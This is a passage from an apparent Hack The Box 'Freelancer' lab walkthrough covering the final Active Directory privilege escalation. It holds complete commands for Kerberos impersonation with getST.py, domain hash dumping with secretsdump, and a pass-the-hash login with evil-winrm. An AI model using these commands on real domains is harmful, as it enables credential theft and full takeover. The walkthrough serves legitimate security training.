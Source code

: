 To retrieve hashes of all users using secretsdump, we can utilize both CIFS and LDAP (verification required for LDAP):

`getST.py -spn 'LDAP/DC.freelancer.htb' -impersonate Administrator -dc-ip 10.10.11.5 'freelancer.htb/ATTACKERSYSTEM$:Summer2018!'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-48.png)

Let's export the path to the obtained tickets:

`export KRB5CCNAME=/home/yoon/Documents/htb/freelancer/Administrator.ccache`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-49.png)

With the obtained tickets, we can dump all the hashes using secretsdump:

`secretsdump.py 'freelancer.htb/Administrator@DC.freelancer.htb' -k -no-pass -dc-ip 10.10.11.5 -target-ip 10.10.11.5 -just-dc-ntlm`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-50.png)

We finally have the shell as the administrator:

`evil-winrm -i 10.10.11.5 -u administrator -H 0039318f1e8274633445bce32ad1a290`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-51.png)

## References
- https://diverto.hr/en/blog/en-2019-11-05-Extracting-Passwords-from-hiberfil-and-memdumps/
- https://juggernaut-sec.com/cve-2022-26923-certifried/
